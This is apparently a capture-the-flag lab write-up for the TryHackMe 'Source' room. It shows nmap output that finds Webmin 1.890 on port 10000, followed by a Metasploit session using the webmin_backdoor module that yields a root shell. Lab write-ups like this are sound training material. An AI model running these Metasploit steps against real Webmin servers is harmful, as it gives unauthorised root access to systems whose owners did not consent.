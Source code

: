 # [Source](https://tryhackme.com/room/source)

First order of business, `nmap`

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbZAxRhWUij6g6MP11OkGSk7vYHRNyQcTIdMmjj1kSvDhyuXS9QbM5t2qe3UMblyLaObwKJDN++KWfzl1+beOrq3sXkTA4Wot1RyYo0hPdQT0GWBTs63dll2+c4yv3nDiYAwtSsPLCeynPEmSUGDjkVnP12gxXe/qCsM2+rZ9tzXtSWiXgWvaxMZiHaQpT1KaY0z6ebzBTI8siU0t+6SMK7rNv1CsUNpGeicfbC5ZOE4/Nbc8cxNl7gDtZbyjdh9S7KTvzkSj2zBJ+8VbzsuZk1yy8uyLDgmuBQ6LzbYUNHkTQhJetVq7utFpRqLdpSJTcsz5PAxd1Upe9DqoYURuL
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEYCha8jk+VzcJRRwV41rl8EuJBiy7Cf8xg6tX41bZv0huZdCcCTCq9dLJlzO2V9s+sMp92TpzR5j8NAAuJt0DA=
|   256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOJnY5oycmgw6ND6Mw4y0YQWZiHoKhePo4bylKKCP0E5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Initial `nmap` scan only shows port 22 with SSH which doesn't give us much, so I tried adding `source.thm` to `/etc/hosts` and scanned that.

```
# Nmap 7.91 scan initiated Mon May 31 18:33:07 2021 as: nmap -vvv -p 22,10000 -sCV -oA init 10.10.155.73
Nmap scan report for source.thm (10.10.155.73)
Host is up, received conn-refused (0.27s latency).
Scanned at 2021-05-31 18:33:08 +07 for 39s

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbZAxRhWUij6g6MP11OkGSk7vYHRNyQcTIdMmjj1kSvDhyuXS9QbM5t2qe3UMblyLaObwKJDN++KWfzl1+beOrq3sXkTA4Wot1RyYo0hPdQT0GWBTs63dll2+c4yv3nDiYAwtSsPLCeynPEmSUGDjkVnP12gxXe/qCsM2+rZ9tzXtSWiXgWvaxMZiHaQpT1KaY0z6ebzBTI8siU0t+6SMK7rNv1CsUNpGeicfbC5ZOE4/Nbc8cxNl7gDtZbyjdh9S7KTvzkSj2zBJ+8VbzsuZk1yy8uyLDgmuBQ6LzbYUNHkTQhJetVq7utFpRqLdpSJTcsz5PAxd1Upe9DqoYURuL
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEYCha8jk+VzcJRRwV41rl8EuJBiy7Cf8xg6tX41bZv0huZdCcCTCq9dLJlzO2V9s+sMp92TpzR5j8NAAuJt0DA=
|   256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOJnY5oycmgw6ND6Mw4y0YQWZiHoKhePo4bylKKCP0E5
10000/tcp open  http    syn-ack MiniServ 1.890 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 5B30B4C65BE690582037CDE5EA4149FF
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: MiniServ/1.890
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 31 18:33:47 2021 -- 1 IP address (1 host up) scanned in 39.34 seconds
```

This reveals a web server on port 10000! Going to `http://source.thm:10000` tells us to use `https://`, and the page `http://source.thm:10000/` shows a "webmin" service.

![http://source.thm:10000/](./webmin.png)

There's no clue to be found around the page and webmin doesn't have weak default credentials to be used.

So I fired up `msfconsole` and searched `webmin` which returns a backdoor payload, `exploit/linux/http/webmin_backdoor` which doesn't require authentication so I ran that and got a root shell!

```
msf6 exploit(linux/http/webmin_backdoor) > set rhosts source.thm
rhosts => source.thm
msf6 exploit(linux/http/webmin_backdoor) > set lhost tun0
lhost => 10.9.22.62
msf6 exploit(linux/http/webmin_backdoor) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_backdoor) > set rport 10000
rport => 10000
msf6 exploit(linux/http/webmin_backdoor) > run

id
uid=0(root) gid=0(root) groups=0(root)
```
